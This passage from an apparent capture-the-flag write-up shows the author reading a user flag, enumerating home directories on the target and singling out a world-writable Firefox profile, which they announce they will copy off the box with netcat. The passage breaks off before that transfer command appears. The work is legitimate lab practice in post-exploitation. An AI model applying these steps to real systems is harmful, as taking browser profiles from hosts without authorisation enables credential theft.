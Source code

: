 We have located the file and let's see what's inside.

```none
$ cat /home/user/user.txt
THM{i_don't_know_why}
```

There's our second flag. :confetti_ball:

### PrivEsc

The challenge says we need to find the contents of `root.txt`.  Doing the same find command for this doesn't return anything that we have permission to access atleast.  We have to look around some more.

Running `ls` on `/home` shows it has 2 users in it.

```none
$ ls -lha /home
total 16K
drwxr-xr-x  4 root root 4.0K Jan 15  2021 .
drwxr-xr-x 24 root root 4.0K Jan 27  2021 ..
drwxr-xr-x  8 user user 4.0K Aug  7 07:55 user
drwxr-xr-x  2 v0id v0id 4.0K Jan 21  2021 v0id
```

Unfortunately the user `v0id` has nothing useful for us.

```none
$ ls -lha /home/v0id
total 12K
drwxr-xr-x 2 v0id v0id 4.0K Jan 21  2021 .
drwxr-xr-x 4 root root 4.0K Jan 15  2021 ..
lrwxrwxrwx 1 root root    9 Jan 21  2021 .bash_history -> /dev/null
-rw-r--r-- 1 v0id v0id 3.7K Jan 15  2021 .bashrc
```

Our user, `user` does have something interesting for us to look at.  The `.firefox` directory typically holds Firefox user profile data.  There could be something useful in there.

```none
$ ls -lha /home/user
total 16M
drwxr-xr-x   8 user user 4.0K Aug  7 07:55 .
drwxr-xr-x   4 root root 4.0K Jan 15  2021 ..
lrwxrwxrwx   1 root root    9 Jan 21  2021 .bash_history -> /dev/null
-rw-r--r--   1 user user 3.7K Apr  4  2018 .bashrc
drwx------   2 user user 4.0K Jan  4  2021 .cache
drwxrwxrwx   4 user user 4.0K Jan 27  2021 .firefox
drwx------   3 user user 4.0K Jan  4  2021 .gnupg
drwxr-xr-x 270 user user  12K Jan  4  2021 .npm
drwxrwxr-x   5 user user 4.0K Aug  7 03:55 .pm2
drwx------   2 user user 4.0K Jan 21  2021 .ssh
-rw-rw-r--   1 user user   22 Jan  4  2021 user.txt
```

Let's pull down the `.firefox` directory with netcat.  First we'll open a listener on our end to extract the directory as a tarball.
